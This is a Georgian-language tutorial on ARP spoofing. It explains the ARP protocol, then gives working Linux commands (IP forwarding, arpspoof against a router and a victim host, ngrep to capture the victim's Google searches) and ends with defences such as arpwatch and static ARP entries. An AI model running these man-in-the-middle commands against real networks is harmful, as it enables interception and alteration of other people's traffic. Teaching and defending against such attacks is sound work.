 # თეორია

აგრეთვე ცნიბილი როგორც Arp Poisoning-ი.
ამ თავდასხმის მომქმედების გაგებისთვუს საჭიროა ჯერ იცოდეთ როგორ მოქმედებს ARP პროტოკოლით (Address Resolution Protocol) MAC მისამართის დადგენა.

შემდეგი არის ტიპიუი სცენარი, ARP პროტოკოლის მეშვეობით MAC მისანართის დადგენის:
  - კომპიუტერ A-ს უნდა რომ დაუკავშირდეს სერვერს რომლის IP მისამართი მან იცის.
  - კოპიუტერი A ჯერ თავის ARP ქეშში ეძებს თუ შიგ არუს დაფიქსირებული ეგ IP მისამართი.
  - თუ IP მისამართი დაფიქსირებულია (ქეშშია), მაშინ კომპიუტერი A იხმარს სათანადო MAC მისამართს.
  - თუ IP მისამართი არა არის დაფიქსირებული (ქეშში არ არის), მაშინ კომპიუტერი A ლოკალურ ქსელში გააგზავნის ARP request-ს broadcast (ლოკალურ ქსელში ყოველ კომპიუტერ მიუვა) რეჟიმში.
  - ლოკალურ ქსელში მყოფ ყოველ კომპიუტერს მიუვიდა ARP request-ი (მათ შორის სერვერსაც რახან იგი ლოკალურ ქსელშია) და სერვერი პასუხობს
(unicast რეჟიმში. ანუ პასუხი მხოლოდ კომპიუტერ A-ს მიუდის და არა ყველას) : "მაგ IP მისამართით კომპიუტერს რომ ეძებთ ეგ მე ვარ, ჩემი MAC
მისამართია…". და შედეგი შენახული იქნება ARP ქეშში.

ეს ყველაფერი ლამაზი კია მაგარამ ეს მაქანიზმი სისუსტეს შეიცავს.
თუ მოვინდომეთ რომ კომპიუტერ A-სგან კომპიუტერ B-თან გაგაზავნილი ტრაფიკი მივითვისოთ მაშინ კომპიუტერ A-ს უნდა ვაგონოთ რომ ჩვენ ვართ კომპიუტერი B და კომპიუტერ B-ს კი უნდა ვაგონოთ რომ ჩვენ ვართ კომპიუტერი A.
ეს ხდება ARP request-ების გაგზავნით ისე რომ მაგ ორ კომპიუტერის ქეშში არსებული ინფორმაცია შეუცვალოთ და მაშასადამე ჩვენ რასაც გვინდა დავეჯერებთ:

  - A-ს ქეშში იქნება B-ს IP მისამართი და ჩვენი MAC მისამართი;
  - B-ს ქეშში იქნება A-ს IP მისამართი და ჩვენი MAC მისამართი.

ამიშ შემდეგ შეგვეძლება რომ ორ კომპიუტერის "შუაში ჩავდგეთ" ტრაფიკს უთვალთვალოთ ან საერთოთ შევცვალოთ.


# პრაქტიკა (ლინუქსში)

ვთქვათ ლოკალურ ქსელში ვართ, მოგახსენებთ ინფორმაციას სამი კომპიუტერ/მოწყობილობის შესახებ.

ADSL როუტერი:
IP მისამართი: 192.168.0.1
MAC მისამართი: 00:40:F4:8E:4B:85

მსხვერპლი:
IP მისამართი: 192.168.0.84
MAC მისამართი: 00:10:A7:0C:E8:BF

ჩვენი კომპიუტერი (თავდამსხმელი):
IP მისამართი: 192.168.0.56
MAC მისამართი: 00:0C:76:81:AC:33

როუტერში და მსხვერპლის კომპიუტერში არაფერი არ არის გასაკეთებელი, რაც იქნება მაგალითად მოცემული ხდება მხოლოდ თავდამსხმელის კომპიუტერიდან, root მომხმარებლად.
ვხსნით სამ შელს.

**ეტაპი 1:**

ვიწყებთ IPv4 forwarding-ის გააქტიურებით:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

ან

```
sysctl -w net.ipv4.ip_forward=1
```

**ეტაპი 2:**

პირველ შელში:

ვიყენებთ arpspoof-ს (რომელიც dsniff-ს პაკეტს მოყვება) რომ 192.168.0.1-ს დავაჯეროთ რომ 192.168.0.84-ის ინტერფეისი გვაქვს:

```
bash-3.1# arpspoof -i eth0 -t 192.168.0.1 192.168.0.84
0:c:76:81:ac:33 0:40:f4:8e:4b:85 0806 42:
    arp reply 192.168.0.84 is-at 0:c:76:81:ac:33
0:c:76:81:ac:33 0:40:f4:8e:4b:85 0806 42:
    arp reply 192.168.0.84 is-at 0:c:76:81:ac:33
```

**ეტაპი 3:**

მეორე შელში:

192.168.0.84-ს ვაჯერებთ რომ ჩვენ ვართ 192.168.0.1-ი:

```
bash-3.1# arpspoof -i eth0 -t 192.168.0.84 192.168.0.1 
0:c:76:81:ac:33 0:10:a7:0c:e8:bf 0806 42:
    arp reply 192.168.0.1 is-at 0:c:76:81:ac:33
0:c:76:81:ac:33 0:10:a7:0c:e8:bf 0806 42:
    arp reply 192.168.0.1 is-at 0:c:76:81:ac:33
```

**ეტაპი 4:**

მესამე შელში:

ტრაფიკს ვუთვალთვალებთ, გვინდა რომ ვნახოტ ვინ რას ეძებს google-ში ლოკალური ქსელიდან.

```
bash-3.1# ngrep "GET /search" "host 192.168.0.84"
```

**დაკვირვება:**
arpspoof-ის -t (target, მიზანი) ნიშნავს რომ მსხვერპლი მარტო ერთია დაკვირვება და მხოლოდ ის ვინც მითითებულია, -tს გარეშე ლოკალურ ქსელში მყოფი ყოველი კომპიუტერი გახდებოდა მსხვერპლი და მთელი ტრაფიკი ჩვენს კომპიუტერს გაივლიდა. ამ შემთხვევაში მხოლოდ ერთი მსხვერპლის ARP ქეშს ვაყალბებთ.

192.168.0.84-ის ARP ქეშის ნახვა შეგვიძლია arp ბრძანების მეშვეობით:

```
bash-3.1# arp -n
Address        HWtype        HWaddress        Flags Mask    Iface
192.168.0.1    ether        00:c:76:81:ac:33        C        eth0
```


**პოსტ სკრიპტუმ**

ასევე საჭიროა iptables firewall-ში გავხსნათ IPv4 masquerading მოქმედი ინტერფეისისთვის.

# დაცვა

ARP Spoofing-ის განხორციელების დროს მისი შემჩნევა ძნელია, მაგრამ თუ თავდასხმა ხანგძლივია მისი შემჩნევა უფრო ადვილია.
ფაქტი რომ იტერფეისი იცვლის MAC მისამართს არ არის ნორმალური გარდა იმ შემთხვევაშუ თუ ახალი კომპიუტერა შეურთეს ქსელში ან ინტერფეისი შეცვალეს ან ახალი მისამართები მიუნეჭეს.

  * arpwatch:
არის პროგრამა arpwatch რომელიც IP და MAC მისამართების ცვლილებებს ტვალს ადევნებს და შეუძლია ARP Spoofing-ის შემჩნევა, მისამართების ცვლილებებს გიგზავნით კიდევაც ელ.ბარათში.

  * სტატიკური IP/MAC მასივი:
მეორე საშუალებაა რომ IP/MAC მისამართების ტყვილები სტატიკურად (რომ დინამიკურად არ შეიცვალოს) დაამყაროთ მაგრამ ყოველივე ცვილება თვენივე ხელებიტ უნდა აკრიფოთ.
